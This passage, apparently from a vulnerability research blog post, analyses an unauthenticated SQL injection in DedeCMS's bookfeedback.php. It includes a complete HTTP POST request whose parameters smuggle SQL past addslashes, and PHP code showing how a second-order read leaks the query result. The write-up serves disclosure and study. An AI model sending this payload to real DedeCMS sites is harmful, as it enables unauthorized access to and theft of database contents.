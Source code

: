 At *\[11\]* we can see that the code builds up a query using attacker controlled input such as `$catid` and `$bookname`. It's possible to land in this sink and bypass the `addslashes` to trigger an unauthenticated SQL injection:

```
POST /plus/bookfeedback.php?action=send&fid=1337&validate=FS0Y&isconfirm=yes&comtype=comments HTTP/1.1
Host: target
Cookie: PHPSESSID=0ft86536dgqs1uonf64bvjpkh3;
Content-Type: application/x-www-form-urlencoded
Content-Length: 70

magic_quotes_gpc=1&catid=1',version(),concat('&bookname=')||'s&msg=pwn
```

We have a session cookie set because it's tied to the captcha code which is stored in an unauthentciated session:

![](/assets/images/pre-authenticated-rce-in-dedecms/captcha.png "Captcha code is used in the validate parameter")

I couldn't bypass `CheckSql` (un)fortunately, but I could side step and leak some data from the database because I could use both the `$catid` and `$bookname` for the injection and then (ab)use a second order:

```php
else if($action=='quote')
{
    $row = $dsql->GetOne("Select * from `#@__bookfeedback` where id ='$fid'");
    require_once(DEDEINC.'/dedetemplate.class.php');
    $dtp = new DedeTemplate();
    $dtp->LoadTemplate($cfg_basedir.$cfg_templets_dir.'/plus/bookfeedback_quote.htm');
    $dtp->Display();
    exit();
}
```

All I had to do was guess the `$fid` (primary key) and check that it matched by injected `$msg` of `pwn` and if it did, I knew that the result from the injection was revealed to me:

![](/assets/images/pre-authenticated-rce-in-dedecms/sqli-res.png "Leaking data from the database")
